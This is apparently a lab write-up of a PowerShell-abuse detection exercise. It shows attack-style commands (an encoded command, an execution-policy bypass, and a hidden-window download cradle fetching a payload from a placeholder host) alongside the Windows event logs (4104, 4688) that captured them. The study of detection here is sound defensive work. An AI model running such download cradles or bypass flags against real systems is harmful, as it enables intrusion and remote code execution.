








# Logs Observed — T1059.001 PowerShell Abuse

**Lab Environment:** Windows Server (TryHackMe AttackBox)  
**Date:** 2026-06-24  
**Setup:** PowerShell Script Block Logging (4104) and Module Logging (4103) enabled via registry. Process creation auditing enabled via `auditpol` with command line logging enabled via Group Policy.

---

## Attack Commands Executed



All four attack commands were executed from an Administrator PowerShell session after enabling logging:

```powershell
powershell -EncodedCommand JABjACAAPQAgACcASABlAGwAbABvACcA
powershell -ExecutionPolicy Bypass -Command "whoami"
powershell -WindowStyle Hidden -Command "Invoke-WebRequest -Uri http://example.com/payload.ps1"
powershell -NoProfile -NonInteractive -Command "Get-Process"
```

---

## Event ID 4104 — Script Block Logging (PowerShell Operational)

**Log Path:** `Applications and Services Logs > Microsoft > Windows > PowerShell > Operational`  
**Total 4104 events generated:** 505

Script Block Logging captures the **decoded content** of every PowerShell script block executed — including Base64-encoded commands, which are transparently decoded before being logged.

### Encoded Command — Decoded by 4104

The `-EncodedCommand` flag is a common attacker obfuscation technique. Despite the Base64 encoding, 4104 captures the **decoded script block** revealing the true payload.

```
Event ID:        4104
Task Category:   Execute a Remote Command
ScriptBlockText: $c = 'Hello'
ScriptBlock ID:  9b39043-ae3e-4211-883d-7d9f3036f391
```



> Key insight: `-EncodedCommand` provides zero protection against 4104. The decoded content is always logged.

---

### Execution Policy Bypass — whoami

```
Event ID:        4104
Task Category:   Execute a Remote Command
ScriptBlockText: whoami
ScriptBlock ID:  0e991c09-51ef-4d93-8c72-22cfc051e30a
```



---

### Download Cradle — Invoke-WebRequest

The download cradle pattern is used by attackers to pull payloads from remote servers directly into memory.

```
Event ID:        4104
Task Category:   Execute a Remote Command
ScriptBlockText: Invoke-WebRequest -Uri http://example.com/payload.ps1
ScriptBlock ID:  919b82c-d331-4696-a08c-ac18a9f2246
```



---

### NoProfile NonInteractive — Get-Process

```
Event ID:        4104
Task Category:   Execute a Remote Command
ScriptBlockText: Get-Process
ScriptBlock ID:  480e5d3-533c-4716-9767-7bbea795b0ce
```



---

## Event ID 4103 — Module Logging (PowerShell Operational)

**Log Path:** `Applications and Services Logs > Microsoft > Windows > PowerShell > Operational`

Module logging was enabled via registry. Events captured pipeline execution details for background PowerShell activity on the system.



> Note: 4103 (Module Logging) generates high volume of background events. For focused PowerShell attack detection, 4104 (Script Block Logging) is more actionable and is what the Sigma rule targets.

---

## Event ID 4688 — Process Creation (Windows Security Log)

**Log Path:** `Windows Logs > Security`  
**Prerequisites:** Audit Process Creation enabled via `auditpol /set /subcategory:"Process Creation" /success:enable` and command line logging enabled via Group Policy.

4688 captures **process creation with full command line arguments** — exposing attacker flags like `-ExecutionPolicy Bypass`, `-WindowStyle Hidden`, `-EncodedCommand`, and `-NoProfile -NonInteractive` directly in the Security log.

### Execution Policy Bypass Captured

```
Event ID:             4688
New Process Name:     C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Creator Process Name: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Process Command Line: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
                      -ExecutionPolicy Bypass -Command "whoami"
Computer:             EC2AMAZ-5M13VM2
```



---

### NoProfile NonInteractive Captured

```
Event ID:             4688
New Process Name:     C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Creator Process Name: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Process Command Line: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
                      -NoProfile -NonInteractive -Command Get-Process
Computer:             EC2AMAZ-5M13VM2
```



---

## Summary — Log Coverage Matrix

| Attack Command | 4104 Captured | 4688 Captured | 4103 Captured |
|---|---|---|---|
| `-EncodedCommand` (Base64) | ✅ Decoded as `$c = 'Hello'` | ✅ Full command line | — |
| `-ExecutionPolicy Bypass` + `whoami` | ✅ `whoami` script block | ✅ Full command line | — |
| `-WindowStyle Hidden` + `Invoke-WebRequest` | ✅ `Invoke-WebRequest` block | ✅ Full command line | — |
| `-NoProfile -NonInteractive` + `Get-Process` | ✅ `Get-Process` block | ✅ Full command line | — |

---

## Key Detection Takeaways

1. **4104 defeats encoding** — `-EncodedCommand` is useless against script block logging. The decoded payload is always logged.
2. **4688 exposes flags** — Every suspicious PowerShell flag (`-Bypass`, `-Hidden`, `-NoProfile`) appears verbatim in the command line field.
3. **Enable these by default** — Both 4104 and 4688 command line logging are disabled in default Windows installations. Enabling them is a critical hardening step for any SOC environment.
4. **Parent process matters** — The `Creator Process Name` in 4688 provides context for triage. PowerShell spawned by `winword.exe` or `excel.exe` is a critical alert.
